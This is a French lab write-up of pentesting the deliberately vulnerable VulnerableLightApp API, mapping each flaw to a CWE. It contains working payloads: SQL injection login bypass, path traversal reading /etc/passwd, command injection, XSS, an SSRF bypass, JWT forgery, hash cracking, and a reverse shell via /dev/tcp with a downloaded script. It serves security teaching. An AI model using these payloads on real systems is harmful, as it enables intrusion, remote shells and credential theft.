

# __VUNÉRABILITÉS WEB - API PENTESTING__

<br>


> [!WARNING]
> * L'ensemble de ce brief à été effectué sur une application faite pour exploiter des failles de sécurité.
> * L’exploitation de vulnérabilités et de failles applicatives doit se faire uniquement dans un environnement contrôlé.


<br>


> [!NOTE]
> Retrouver l'ensemble du projet ici : [VulnerableLightApp](https://github.com/Aif4thah/VulnerableLightApp).


<br>


# __I. PHASE DE RECONNAISSANCE__

<br>

## __SCANNER POUR DÉCOUVRIR__ (nmap)

 _**CWE-295** – Improper Certificate Validation_


### Détection des services et versions


```sh
sudo nmap -sS -sV -p- <IP> 
```
* `-sS` = scan SYN (n’établit pas la connexion complète, rapide et discret)
* `-sV` : détecte les versions des services


Beaucoup de ports sont ouverts sur cette machine, celui qui nous interesse est le port 3000

<br>

### Scan plus bruyant et agressif (OS, version, scripts)


```sh
sudo nmap -A -p 3000 -T4 <IP>
```
* `-A` : versions + OS detection + scripts NSE + traceroute
* `-T4` = scan plus rapide (pratique en lab / CTF)


<table>
  <tr>
    <td>1</td>
    <td><strong>TLS-ALPN (h2, http/1.1)</strong></td>
    <td>→</td>
    <td>Indice d’API interne / dev, souvent moins sécurisée</td>
  </tr>
  <tr>
    <td>2</td>
    <td><strong>SSL-CERT</strong></td>
    <td>→</td>
    <td>Certificat auto-signé (CN=localhost) + dates</td>
  </tr>
  <tr>
    <td>3</td>
    <td><strong>HTTP-AUTH</strong></td>
    <td>→</td>
    <td>401 sans WWW-Authenticate + header Kestrel (candidat fuzz / bypass auth)</td>
  </tr>
  <tr>
    <td>4</td>
    <td><strong>OS GUESS</strong></td>
    <td>→</td>
    <td>Estimation de l’OS (aide au choix des exploits / payloads)</td>
  </tr>
  <tr>
    <td>5</td>
    <td><strong>TRACEROUTE</strong></td>
    <td>→</td>
    <td>Cible directement accessible (pas de firewall intermédiaire visible)</td>
  </tr>
</table>

_CWE-295_ Improper Certificate Validation → "self-signed TLS certificate without proper trust validation, allowing man-in-the-middle attacks".

<br>


## __ÉNUMÉRATION__

_**CWE-200** – Exposure of Sensitive Information_

### Rappel des codes de réponses web

| Code HTTP | Interprétation |
|-----------|----------------|
| 200       | Accessible |
| 301 / 302 | Existe, redirige |
| 401 / 403 | Existe, protégé |
| 404       | Probablement inexistant |
| 405       | Action non autorisée |
| 500       | Bug exploitable potentiel |

<br>

### Téléchargement des listes d'énumérations 

```sh
sudo apt update
sudo apt install seclists
```
listes installées dans /usr/share/seclists

Télécharger directement depuis GitHub  
```sh
git clone https://github.com/danielmiessler/SecLists.git 
```

<br>

### Énumération avec FFUF

__'Fuzz Faster U Fool'__ 


* Il est possible d'énumérer avec l'**Intruder** sur burp, mais ici j'ai choisi ffuf
* ffuf est un outil spécialisé dans les injections SQL, il permet aussi d'énumérer les Endpoints et fichiers d'une appli.

```sh
apt install ffuf -y
```


__Options pour ffuf__

| Option | Nom            | Description |
|-------:|----------------|-------------|
| -w    | Wordlist        | Fichier de mots à tester (dictionnaire) |
| -u    | URL             | URL cible avec le mot-clé `FUZZ` |
| -mc   | Match Code      | Affiche seulement les réponses avec ces codes HTTP |
| -fc   | Filter Code     | Masque les réponses avec ces codes HTTP |
| -ms   | Match Size      | Affiche seulement les réponses d’une taille donnée |
| -fs   | Filter Size     | Masque les réponses d’une taille donnée |
| -mw   | Match Words     | Filtre selon le nombre de mots |
| -fw   | Filter Words    | Masque selon le nombre de mots |
| -ml   | Match Lines     | Filtre selon le nombre de lignes |
| -fl   | Filter Lines    | Masque selon le nombre de lignes |
| -t    | Threads         | Nombre de requêtes simultanées |
| -r    | Follow Redirect | Suit les redirections HTTP |
| -k    | Insecure TLS    | Ignore les erreurs de certificat SSL |
| -v    | Verbose         | Mode verbeux (affiche plus d’infos) |
| -c    | Color           | Active la coloration de sortie |
| -o    | Output          | Fichier de sortie |
| -of   | Output Format   | Format de sortie (json, csv, html, md) |
| -H    | Header          | Ajoute un header HTTP personnalisé |
| -X    | Method          | Méthode HTTP (GET, POST, PUT…) |
| -d    | Data            | Données envoyées (POST, PUT…) |
| -timeout | Timeout      | Temps max d’attente par requête |

<br>


Énumérer avec une liste de mots connus d'API
```sh
ffuf  -k -r -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt  -u https://192.168.0.17:3000/FUZZ -mc 200,301,302,401,403 -fc 404
```

<br>

> [!IMPORTANT]
> * Les résultats d'énumération peuvent être plus pertinents en intégrant un token (option `-H` pour ajout d'un token).
> * Il peut s'avérer utile de refaire une énumération avec token (utilisateur ou admin) plus tard pour une meilleure reconnaissance.

<br>

Ici on peut voir que l'énumération permet de retrouver le endpoint `swagger` et `/swagger/v1/swagger.json` qui est un fichier important


Afficher le fichier swagger.json énuméré précédemment 
```sh
curl -k https://192.168.0.17:3000/swagger/v1/swagger.json
```

<br>

**Ce fichier est contenu dans l'API et n'est pas destiné à être affichée en html (ne s'affichera pas sur une page web), mais il représente une carte complète de la surface d’attaque de l’API :**

* On peut y voir les __méthodes exactes__ pour appeler les Endpoints :
  * GET /Employee?i=...
  * POST /Login (JSON)
  * POST /Invoice (JSON structuré)
  * PATCH /Patch (upload de fichier)

* Des paramètres intéressants qui peuvent servir pour des attaques SQLi, LFI/RFI, XSS (si reflété), RCE...
  * i (string, souvent dangereux)
  * lang
  * champs texte (owner, client, activity)

<br>

Voici une partie extraite du fichier :
```json
"/LocalDNSResolver": {
  "get": {                         // Endpoint accessible via HTTP GET
    "tags": [
      "VulnerableWebApplication"   // Regroupement logique (pure documentation)
    ],
    "parameters": [
      {
        "name": "i",               // Paramètre attendu : i
        "in": "query",             // Passé dans l’URL (?i=...)
        "required": true,          // Obligatoire → pas de valeur par défaut
        "schema": {
          "type": "string"         // Type libre → fort risque d’injection
        }
      }
    ],
    "responses": {
      "200": {
        "description": "OK",       // L’appli considère toujours la requête comme valide
        "content": {
          "application/json": {
            "schema": { }          // Aucun schéma défini → réponse non contrôlée

```

<br>

* Plus d'infos sur la page [Dojo-101-Pentest scan de vuln web](https://github.com/Aif4thah/Dojo-101/blob/main/Dojo-101-Pentest/Scanning-for-vulnerabilites-WEB.md)
* Infos supplémentaires sur la [page GitHub de ffuf](https://github.com/ffuf/ffuf)

---


<br>


# __II. GAIN ACCESS__

<br>

## __SQL INJECTION__

 _**CWE-89** - SQL Injection_

### Vérifier si l'appli est vulnérable à l'injection dans le champs utilisateur

* En mettant un `'` dans le nom d'user (Exemple: tot'o) on obtient ici une erreur 500.
* L'**Erreur 500** reflète une **erreur interne du serveur**
* Essayer des injections dans le champ utilisateur
* Essayer d'avoir une réponse 200 de l'application et de pouvoir s'authentifier.
* Le champ password n'est pas injectable de cette façon car il utilise les hashs

<br>

Le champ de Login est l'endroit où injecter le payload:


```
{
  "user": "toto' OR '1'='1" ,
  "passwd": "string"
}
```
Cette injection transforme la requête SQL en une condition toujours vraie. Voici ce qui peut se passer coté backend SQL :
```sql
SELECT * FROM users
WHERE username = 'toto' OR '1'='1'
AND password = 'string';
```
<br>

Si l'injection fonctionne on obtient une réponse de la BDD, et le serveur web applicatif renvoit un succès `HTTP 200`

Cet exploit nous permet de récupérer un `token JWT` qui va nous permettre de s'autentifier.


<br>

Pour effecuer la requête de connexion depuis un shell et obtenir directement le token :
```sh
curl -k -X 'POST' 'https://192.168.0.25:3000/Login' -H 'accept: application/json' -H 'Content-Type: application/json' -d '{ "user": "toto'\'' OR '\''1'\''='\''1", "passwd": "string" }'
```


Pour en savoir plus sur les injections SQL, consulter cette [liste des payloads connues](https://github.com/payloadbox/sql-injection-payload-list)


---

<br>


## __CONSTRUCTION D'UN TOKEN JWT__


**JWT =** _Json Web Token_


`header` `.` `payload` `.` `signature`

* Header → algorithme + type de token
* Payload → données (infos utilisateurs)
* Signature → intégrité/authenticité


<br>

* __HEADER__

  * C'est la première partie du token, elle en base64url donc non chiffrée                                           
  `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9`

  * Ce qui donne en décodé :
  ```
  {"alg":"HS256","typ":"JWT"}
  ```

  Indique que le type de token et qu’il utilise l’algorithme de signature HMAC-SHA256.


<br>

* __PAYLOAD__

  * C'est la partie centrale du token, ces infos sont en aussi base64url  
  `eyJJZCI6InRvdG8nIE9SICcxJz0nMSIsIklzQWRtaW4iOiJGYWxzZSIsIm5iZiI6MTc2NTUyODk3MiwiZXhwIjoxNzk3MDY0OTcyLCJpYXQiOjE3NjU1Mjg5NzJ9`

  * Ce qui donne en décodé :
  ```
  {"Id":"toto' OR '1'='1","IsAdmin":"False","nbf":1765528972,"exp":1797064972,"iat":1765528972}
  ```


<br>

* __SIGNATURE__

  * C'est la dernière partie du token, elle combine le header et le payload avec une clé secrète
  `C8MDRJOu0W8osI5ZTnd2nKLpv2bCzWcLOCuw1IePP0o`
 
  ```
  HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)
  ```

<br>


---

<br>


## __S'AUTHENTIFIER AVEC LE TOKEN__

_**CWE-287** – Improper Authentication_

### Modifier la requête dans le repeater avec Burp

```html
GET / HTTP/2
Host: <IP>:3000
Authorization: Bearer <Token>
Accept: application/json
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: fr-FR,fr;q=0.9
```


S'authentifier dans le naviguateur de Burp (celà évite de rajouter le token dans `Request` à chaque fois)


Actualiser le navigateur Burp :


S'authentifier depuis un shell :
```sh
curl -k -i -H "Authorization: Bearer <Token>" "https://<IP>:3000/"
``` 


---


<br>


## __LOCAL FILE INCLUSION__ 


* _**CWE-829** - Local File Inclusion_
* _**CWE-200** - Exposure of Sensitive Information to an Unauthorized Actor_


<br>

La `LFI` est une vulnérabilité de gauche, (ok j'arrête) qui permet d'**afficher des fichiers locaux d'une l'application**.

Ici on utilise le paramètre `lang` de  l'API en détournant son usage, au lieu d'indiquer /?lang=fr on indique le nom d'un fichier.

```
https://<IP>:3000/?lang=appsettings.json
```

Cette vulnérabilité peut permettre de récolter des informations importantes

* Ici on peut voir que ce fichier contient le secret d'un token VLA. 
* Le serveur renvoit une erreur 500 avec des informations supplémentaires sensibles (Ces vulnérabilités sont détaillées plus bas)


---

<br>


## __PATH TRAVERSAL__

_**CWE-22** - Path Traversal_
 
* Elle rend possible la **naviguation vers les fichiers de la machine**.
* Cette vulénaribilté utilise aussi le paramètre `lang`

Ici le contenu du fichier /etc/passwd`


__Depuis un shell__
```sh
curl -k -i -H "Authorization: Bearer <Token>" https://<IP>:3000/?lang=/etc/passwd
```


<br>

__Options pour curl__

| Option | Nom / Type | Description |
|------|------------|-------------|
| -I | HEAD | Envoie une requête HEAD (headers uniquement, pas de body) |
| -i | Include | Affiche les headers **+** le corps de la réponse |
| -k | Insecure | Ignore la validation du certificat TLS |
| -H | Header | Ajoute un header HTTP personnalisé |
| -X | Method | Force la méthode HTTP (GET, POST, PUT, DELETE…) |
| -d | Data | Envoie des données (POST par défaut) |
| --data-urlencode | Data | Encode automatiquement les paramètres |
| -u | Auth | Authentification HTTP user:password |
| -b | Cookie | Envoie des cookies |
| -c | Cookie jar | Sauvegarde les cookies reçus |
| -L | Location | Suit les redirections |
| -s | Silent | Mode silencieux (pas de progression) |
| -v | Verbose | Affiche les échanges détaillés (debug HTTP) |
| -o | Output | Écrit la réponse dans un fichier |
| --compressed | Compression | Accepte gzip/deflate |

---


<br>


## __REMOTE COMMAND EXECUTION__ 

_**CWE-78** → OS Command Injection_

La vulnérabilité RCE permet d'effectuer des commandes sur la machine distante depuis l'URL

Utilisation du Endpoint LocalDNSResolver de VLA


<br>

Le Endpoint LocalDNSResolver de VLA utilise une regex pour accepter le paramètre d'entrée utilisateur
```sh
^(?:[a-zA-Z0-9_\-]+\.)+[a-zA-Z]{2,}(?:.{0,100})$
```
Utiliser le site [regex101](<https://regex101.com/>) pour s'aider


<br>

Ici le fichier controller.cs (C#) qui est une partie du code source pour le endpoint LocalDSNResolver:
```C
Effectue une requête DNS pour le FQDN passé en paramètre
            */
            if (Regex.Match(UserStr, @"^(?:[a-zA-Z0-9_\-]+\.)+[a-zA-Z]{2,}(?:.{0,100})$").Success)
            {
                Process Cmd = new Process();
                Cmd.StartInfo.FileName = RuntimeInformation.IsOSPlatform(OSPlatform.Windows) ? "powershell" : "/bin/sh";
                Cmd.StartInfo.RedirectStandardInput = true;
                Cmd.StartInfo.RedirectStandardOutput = true;
                Cmd.StartInfo.CreateNoWindow = true;
                Cmd.StartInfo.UseShellExecute = false;
                Cmd.Start();
                Cmd.WaitForExit(200);
                Cmd.StandardInput.WriteLine("nslookup " + UserStr);
                Cmd.StandardInput.Flush();
                Cmd.StandardInput.Close();
```
* Le code source ouvre un terminal pour exécuter nslookup
* Le paramètre `UserStr` attend une entrée utilisateur ce qui n'est pas conseillé au niveau backend
* L'entrée normale attendue serait un nom de domaine  (ex: `taisen.fr`)
* Étant mal programmée, la regex est plus permissive que prévu et permet d'insérer d'autre caractères
* Le endpoint LocalDNSResolver peut être utiilisé pour effectuer des commandes à distance dans terminal du serveur
* Ici un simple `;` permit par la regex nous permet d'exécuter la commande `id`

<br>

Cette vulnérabilité peut permettre :
  * D'installer/supprimer des programmes/outils (wget, apt install...)
  * De cartographier le réseau de la machine distante
  * Ajputer un utilisateur pour créer une backdoor
  * Rajouter une cléf SSH (backdoor aussi)
  * Accéder aux dossiers de la machine...
  * Regarder les droits auxquels on accès (whoami /all)
  * Effectuer/Télécharger un script d'élèvation de privilège


<br>

Le faire dans un shell 
```sh
curl -k -i -H "Authorization: Bearer <Token>" "https://192.168.0.17:3000/LocalDNSResolver?i=simplon.co;id"
```

<br>

__Rendre une URL valide avec l'encodage__

* Ici, la commande `ip a` doit utiliser l’encodage URL `%20` pour remplacer l’espace, afin que l’URL soit valide et transmise correctement au serveur
* Une fois reçue, l’application décode l’URL, puis la chaîne devient `ip a` et est ensuite interprétée par le shell côté serveur.
```sh
curl -k -i  -H $Header "https://192.168.0.17:3000/LocalDNSResolver?i=t.fr;ip%20a"
```

---


<br>


__Encodage dans l’URL__

| Caractère | Encodage URL | Usage courant |
|----------|--------------|---------------|
| espace   | %20          | séparation d’arguments |
| ;        | %3B          | séparation de commandes |
| &        | %26          | exécution en arrière-plan / concat |
| \|       | %7C          | pipe |
| >        | %3E          | redirection sortie |
| <        | %3C          | redirection entrée |
| `        | %60          | substitution de commande |
| $        | %24          | variable / substitution |
| (        | %28          | sous-shell |
| )        | %29          | sous-shell |
| {        | %7B          | blocs / expansions |
| }        | %7D          | blocs / expansions |
| '        | %27          | quote simple |
| "        | %22          | quote double |
| \        | %5C          | échappement |
| newline  | %0A          | séparation de commandes |


Il est possible de s'aider de ce [site pour l'encodage URL](https://www.urlencoder.org/)

<br>

Ici depuis Burp


---


<br>


## __XSS__ 

_**CWE-79** → Cross-site Scripting_

Le __Cross-Site Scripting__ sert à injecter du JavaScript malveillant dans une page web vue par d’autres utilisateurs

Cette vulnérabilité peut permettre de :
* Voler des cookies / tokens → se faire passer pour l’utilisateur.
* Modifier l’apparence de la page → fausses fenêtres de login, phishing.
* Exécuter des actions à la place de l’utilisateur → en utilisant sa session.
* Scanner l’environnement de la victime (extensions, IP interne via WebRTC, etc.).

Elle s'utilise directement dans l'URL

```java
<marquee onstart=alert(1)>Ma 1ere XSS</marquee>
```

<marquee onstart=alert(1)>Ma 1ere XSS</marquee>


<br>

On peut voir que cette XSS permet d'afficher un message sur la page web de l'utilisateur :


---


<br>


## __REVERSE SHELL__ 

_**CWE-78** → OS Command Injection_

La connexion part de la machine victime, et se connecte à la machine d'attaque.

Dans ce cas il faut avoir récupéré un token utilisateur et s'être assuré que le serveur victime est vulnérable aux attaques RCE.

<br>

Mettre la machine attaquant sur écoute (port 4999)
```sh
nc -lnvp 4999
```


Si ce code est exécuté coté victime et que l'attaquant écoute le reverse shell fonctionnera
```sh
bash -i >& /dev/tcp/192.168.0.19/4999 0>&1
```


Télécharger le script RevShell.sh avec la faille RCE sur la machine distante
```sh
Header="Authorization: Bearer <token>"
curl -k -i -H $Header "https://192.168.0.17:3000/LocalDNSResolver?i=t.fr;wget%20https://raw.githubusercontent.com/ZeryAzery/HitThePrompt/refs/heads/main/Linux/RevShell.sh"
```

Donner les droits au script RevShell.sh
```sh
curl -k -i -H $Header "https://192.168.0.17:3000/LocalDNSResolver?i=t.fr;chmod%20+x%20RevShell.sh" 
```
Exécuter le script
```sh
curl -k -i -H $Header "https://192.168.0.17:3000/LocalDNSResolver?i=t.fr;./RevShell.sh"
```


Nous avons directement accès au terminal de la machine distante avec les droits de l'utilisateur distant en cours...

> [!WARNING]
> Dans cet exemple on voit l'intérêt de ne pas faire tourner des API avec un compte root, ici la compromission de la machine distante est quasi totale.


---


<br>

## __ERREUR INTERNE CONTENANT DES INFOS SENSIBLES__

* _**CWE-209** – Generation of Error Message Containing Sensitive Information_
* _**CWE-200** - Exposure of Sensitive Information to an Unauthorized Actor_

Lors de l’envoi d’une requête malformée, l’application retourne une erreur incluant trop de détails 


* Renvoit le paramètre manquant (parameter "string i" was not provided)
* La stack trace complète → Microsoft.AspNetCore.Http.BadHttpRequestException
* Chemins locaux exactes + user système divulgués → /home/toto/VulnerableLightApp/MidlWare/MidlWare.cs:line 84
* Informations sur les composants middleware utilisés : (dévoile l'ordre des middleswares, les composants de sécurité et les points à cibler)
  * ValidateJwtMiddleware
  * XRealIPMiddleware
  * SwaggerUIMiddleware


---


<br>


##  __IDOR__

_**CWE-639**  – Insecure Direct Object Reference_

* une ressource est identifiée par un paramètre contrôlable (id, i, owner, etc.)
* le serveur ne vérifie pas les droits d’accès

Dans le fichier swagger/v1/swagger.json, ici la partie du endpoint /Employee
```json
{
  "/Employee": {                          // Endpoint permettant d’accéder aux données d’un employé
    "get": {
      "tags": [
        "VulnerableWebApplication"        // Catégorie de l’endpoint
      ],
      "parameters": [
        {
          "name": "i",                    // Identifiant de la ressource (employé)
          "in": "query",                  // Fourni directement par l’utilisateur dans l’URL
          "required": true,               // Obligatoire pour accéder à la ressource
          "schema": {
            "type": "string"              // Aucun contrôle de type fort (ex : ID numérique)
          }
        }
      ],
      "responses": {
        "200": {                          // Réponse OK même lorsque l’identifiant est modifié
          "description": "OK",
          "content": {
            "application/json": {
              "schema": {}                // Absence de restriction ou de vérification d’autorisation
```

>[!NOTE] 
> Un fichier json ne peux pas contenir de commentaire
 

<br>

```sh
curl -k -i -H $Headeradm "https://192.168.0.25:3000/Employee?i=1" 
```


Ici on voit que l'Id 1 correspond à l'employé Jhon, on peut voir son âge et son adresse.

<br>

* Il est inutile de fuzzer sur du code 200 ici car l'application renvoit toujours un code 200 peut importe l'id utilisateur.
* Le nombre de mots renvoyés par une requête avec un Id nul est de 6 alors que une requête avec l'Id 1 (comme celle de Jhon) renvoit 79 mots.
```sh
curl -k -i -H $Headeradm "https://192.168.0.25:3000/Employee?i=1" | wc -w
curl -k -i -H $Headeradm "https://192.168.0.25:3000/Employee?i=9999" | wc -w
curl -k -i -H $Headeradm "https://192.168.0.25:3000/Employee?i=9998" | wc -w
```


On peut donc créer une liste de nombre et venir Fuzzer sur le endpoint /Employee en excluant les réponses avec un file size de 6.
```sh
seq 1 9999 > ~/numbers.txt
```
```sh
ffuf -H $Headeradm -u "https://192.168.0.25:3000/Employee?i=FUZZ" -w ~/numbers.txt -fs 6
```


__Ici on obtient la liste complète des user Id.__


<br>

---


# __SSRF__

* _**CWE-918** — Server-Side Request Forgery_
* _**CWE-184** — Incomplete List of Disallowed Inputs_

<br>

La SSRF permet d’exploiter les mécanismes de requêtes légitimes d’une application ou d’une API afin d’en détourner l’usage. Elle consiste à forcer le serveur à effectuer une requête réseau à la place de l’attaquant, vers une ressource choisie par celui-ci.

Cette vulnérabilité peut permettre à un attaquant d’atteindre des services internes normalement non exposés, d’accéder à des ressources protégées, voire dans certains cas de lire des fichiers locaux (mécanisme différent d’une LFI, bien que les impacts puissent se recouper).

<br>

Dans cette application, l’endpoint /LocalWebQuery agit comme un proxy interne authentifié. Il permet à un utilisateur disposant d’un token valide de déclencher des requêtes HTTP effectuées directement par le serveur, y compris vers des endpoints internes ou des services normalement inaccessibles depuis l’extérieur, contournant ainsi les restrictions d’accès réseau.

Les conséquences possibles de l’exploitation d’une SSRF incluent notamment :

- l’accès à des services internes ;
- le contournement de mécanismes d’authentification ;
- la cartographie ou le scan du réseau interne ;
- le déclenchement de comportements applicatifs dangereux ;
- l’exfiltration d’informations sensibles.


Voici une parie du code source commenctée pour comprendre les mauvaises pratiques du code
```cs
public static async Task<object> VulnerableWebRequest(string Uri = "https://localhost:3000/")
{
    /*
     L’utilisateur contrôle le paramètre "Uri" et le serveur effectue une requête HTTP à la place de l’utilisateur
     */

    // Si aucun paramètre n’est fourni, une URL par défaut est utilisée
    if (string.IsNullOrEmpty(Uri))
        Uri = "https://localhost:3000/";
    /*
     Filtrage regex trop permissif, vérifie uniquement que la chaîne commence par "https://localhost"
     Ne parse PAS réellement l’URL et peut être contourné avec la syntaxe userinfo (@)
     */
    if (Regex.IsMatch(Uri, @"^https://localhost"))
    {
        // Création d’un HttpClient côté serveur
        using HttpClient Client = new();

        // Le serveur accepte uniquement du text/html
        Client.DefaultRequestHeaders.Accept.Add(
            new MediaTypeWithQualityHeaderValue("text/html")
        );

        /*
         Appel de la fonction interne exec(), le serveur effectue une requête HTTP vers l’URL fournie par l’utilisateur
         */
        var Resp = await exec(Client, Uri);
        // Fonction locale effectuant réellement la requête
        static async Task<string> exec(HttpClient client, string uri)
        {
            // Requête HTTP GET vers l’URL contrôlée par l’utilisateur
            var Result = client.GetAsync(uri);

            // Déclenche une exception si le code HTTP n’est pas 2xx (génère des erreurs 500 visibles côté client)
            Result.Result.EnsureSuccessStatusCode();

            // Seul le code HTTP est retourné, pas le contenu
            return Result.Result.StatusCode.ToString();
        }

        // Le serveur retourne "OK" si la requête interne a réussi
        return Results.Ok(Resp);
    }
    else
    {
        // Si la regex échoue, l’accès est refusé
        return Results.Unauthorized();
    }
}
```

* La validation de l’URL repose sur une regex faible qui ne prend pas en compte la syntaxe userinfo des URI. (CWE-184)
* L’utilisation du caractère `@` permet de contourner cette validation, en faisant apparaître localhost comme information d’authentification et redirige la requête vers un hôte externe.

<br>

Dans ce cas le code du dev souhaite autoriser uniquement localhost :
* `if (Regex.IsMatch(Uri, @"^https://localhost"))`
* La validation repose sur la regex `^https://localhost`, qui vérifie uniquement le début de l’URL sans analyser sa structure complète. 
* Une URL comme `https://localhost@google.fr` est acceptée car elle commence bien par `https://localhost`, alors que le caractère `@` introduit une userinfo, faisant de google.fr l’hôte réel de la requête.

```sh
curl -k -i -H $Headeradm "https://192.168.0.25:3000/LocalWebQuery?i=https://localhost@google.fr" 
```


<br>

---


# __COMPROMISSION DES COMPTES ADMINISTRATEUR & ROOT__


Ici le nombre de CWE semble plus élévé que ceux répertoriés sur la [page de VLA](https://github.com/Aif4thah/VulnerableLightApp/tree/main#-vulnerabilities), j'ai choisi de les indiquer dans les sous chapitres.

<br>

## __Forger le token admin__

* _**CWE-321** – Use of Hard-coded Cryptographic Key_
* _**CWE-798** – Use of Hard-coded Credentials_

<br>

Comme vu avant dans le chapitre sur la LFI dans le fichier appsettings.json on peut retrouver un secret qui est en base 64 et qui représente la partie signature du token, donc une clé cryptographique (_CWE-321_) est inscrite en dur dans un fichier du code source (_CWE-798_). Cette cléf nous permet de forger un token JWT.

On peut s'aider du [site jwt.io](https://www.jwt.io/) pour forger et mieux comprendre les tokens.

Mettre le secret dans le champ approprié puis changer la valeur "admin" en "true" permet ici de récupérer un token valide.


<br>

## __Faiblesses dans le code source__

* _**CWE-259** – Use of Hard-coded Password_
* _**CWE-269** – Improper Privilege Management_
* _**CWE-522** – Insufficiently Protected Credentials_
* _**CWE-862** – Missing Authorization_

<br>

L'application intègre un compte administrateur et root directement dans son code source (codé en dur), incluant un hachage de mot de passe statique et un niveau de privilèges. Cela permet à un attaquant de récupérer et/ou tenter de reproduire les credentials et d'obtenir un accès complet à l'application. (_CWE-798, CWE-259_)

Cette faiblesse est aggravée par une protection insuffisante des informations d'identification (_CWE-522_) et une gestion inappropriée des privilèges (_CWE-269_).

- Découverte des identifiants utilisateurs dans le code source
  - Hashs codés en dur (_CWE-798_)
  - Découverte de comptes utilisateurs (dont un admin et un root)
  - Présence des hashs en statique (_CWE-259_)
  - Visibilité des Champ `IsAdmin = 1` sur compte admin et root (_CWE-269, CWE-862_) → la valeur seule suffit à définir le rôle)

- Analyse du mécanisme de hash et stockage des mots de passe (_CWE-522_)
  - Type de hash : SHA-256
  - Absence de salt (_CWE-759_)
  - Absence de mécanisme de dérivation de clé (bcrypt, Argon2…) (_CWE-916, CWE-522_)
  - Absence de séparation entre données sensibles et logique applicative (_CWE-522_)

<br>

On voit dans le code source que la valeur `("IsAdmin", typeof(int))` se situe sur 0 pour les utilisateurs il est facil d'en déduire la logique
```cs
table.Columns.Add("User", typeof(string));
table.Columns.Add("Passwd", typeof(string));
table.Columns.Add("IsAdmin", typeof(int));
table.Rows.Add("admin", "8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a444", 1);
table.Rows.Add("Alice", "9b510b4af0d9b121f68d5a3400975047cbf38f963963b4c7510842d9d6310e7f", 0);
table.Rows.Add("Bob", "aed8f2deab14c36eeaa6d9c5c07ac6b586a74c18015dff9ac1cd0fc320f107b2", 0);
table.Rows.Add("Charlie", "99cdaf24cef97271760d72f0552ff18bb0c53e47d272cc1b3aa2c8b4e7d71b22", 0);
```


<br>

## __Brute force sur le hash du compte root__

* _**CWE-521** – Weak Password Requirements_
* _**CWE-916** – Use of Password Hash With Insufficient Computational Effort_
* _**CWE-759** – Use of a One-Way Hash without a Salt_

<br>

- L’utilisation d’un hash non salé (_CWE-759_) et non itératif rend possible une attaque par force brute
  - Possibilité de brute-force hors ligne (_CWE-916_)
  - Utilisation de wordlists publiques, ici rockyou surement la plus connue (_CWE-521_)

<br>

En m'aidant du logiciel hascat j'ai pu brute-force le hash du compte root ce qui m'a permis de retrouver le mot de passe et de pouvoir me connecter avec directement depuis le champs /Login endpoint.



* Créer un fichier .txt contenant le hash
* Indiquer le type d'algorythme (`-m 1400` pour du SHA-256)
* Indiquer le fichier contenant le hash
* Indiquer une wordlist
* J'ai aussi indiqué un fichier de règle (`-r .../best66.rule` probablement overkill ici...)

```sh
hashcat -m 1400 Test_Perso/Hash-root.txt rockyou.txt -r /usr/share/hashcat/rules/best66.rule
```


<br>

_**PoC**_ : connexion en root directement depuis l'API


> [!NOTE]
> * Retrouver l'explication d'une _CWE_ sur [cette page](https://cwe.mitre.org/about/new_to_cwe.html)
> * Les _CWE_ citées peuvent êtres consultées sur le site [cwe.mitre.org](https://cwe.mitre.org/index.html) avec leurs n° correspondant.


<br>

---


## Les logs VLA sont visibles ici

```
VulnerableLightApp/bin/Debug/net8.0/Logs/*logfile.json
```

---

* Le [TP suivant](https://github.com/ZeryAzery/HitThePrompt/blob/main/Exo_AIS/SIEM/Retrouver_des_incidents.md) consiste à retrouver les logs générés par VLA depuis un SIEM
* Le but est de pouvoir retouver les attaques dans les logs :  SQLI, Swagger, LFI, Command Injection, XSS...
